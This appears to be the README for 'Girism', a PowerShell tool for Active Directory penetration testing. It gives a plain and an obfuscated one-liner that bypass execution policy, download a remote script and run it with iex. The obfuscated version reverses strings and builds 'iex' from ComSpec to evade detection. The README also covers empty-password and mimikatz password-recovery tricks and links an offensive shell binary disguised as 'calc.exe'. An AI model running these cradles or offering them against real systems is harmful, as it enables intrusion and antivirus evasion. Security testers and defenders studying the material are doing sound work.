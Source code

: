 # GIRISM - Guided Infiltration and Reconnaissance Initiative for System Manipulation

*Automating Penetration testing of Active Directory*

Import-Module .\Girism.ps1
Type Girism and then allow the script to load into the current Powershell session.
Follow the on-screen instructions afterwards.

IEX:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/Girism/main/Girism.ps1'))

OBF IEX:

" $(SeT-iTEm 'vaRiABlE:OFs'  '') "+ ( [STrINg] [rEGEX]::MatChes( "xEI |)93]rahC[,'1LI' eCAlpEr-  )')'+')'+'1LI1sp.msiriG'+'/nia'+'m/msi'+'riG/o'+'h'+'oZniMAI/moc.'+'tne'+'tnoc'+'resubu'+'ht'+'ig'+'.wa'+'r//:sp'+'tth1LI'+'(gnirtSdaolnw'+'oD.)tneilCb'+'eW.t'+'e'+'N.met'+'syS '+'t'+'ce'+'jbO-weN(( xei '+';2703 rob'+'- locot'+'orPytiruceS'+'::]rega'+'naM'+'tnioPecivreS.teN.m'+'et'+'syS[ = l'+'o'+'cotorPytiruce'+'S:'+':]rega'+'naM'+'tnioPe'+'civr'+'eS.teN.'+'me'+'tsy'+'S[ ;'+'e'+'croF-'+' ss'+'ecorP '+'ep'+'ocS- s'+'sapyB ycilo'+'P'+'noituc'+'exE-teS'(( " , '.' ,'R'+'Ig'+'httoL'+'eFt') | %{$_ })+"$( SET-ITeM 'variAble:OFs'  ' ' )" | & ( $enV:COmsPEc[4,15,25]-JoIN'')

#  Empty password in Active Directory
I found out that the reason for an empty password in Active Directory can be found here – in the UserAccountControl Attribute.
In this attribute the flag “PASSWD_NOTREQD” can be set. If this flag is set, a domain administrator can issue an empty password, evading the password policy.
For accounts with the flag “PASSWD_NOTREQD” set, the attribute “UserAccountControl” has the value 544.

# Store password using reversible encryption
After you set the user attribute in the "Account" tab, as store password using reversible encription, you must reset password to see the password fetched from the mimikatz command 

# C# projects that can be called:
Choose option 16:

PingCastle: https://github.com/IAMinZoho/Girism/raw/main/PingCastle.exe

P0wnedshell: https://github.com/IAMinZoho/Girism/blob/main/calc.exe?raw=true

# Clean the file share as post cleanup routine:
Type in Run window: 'fsmgmt.msc'
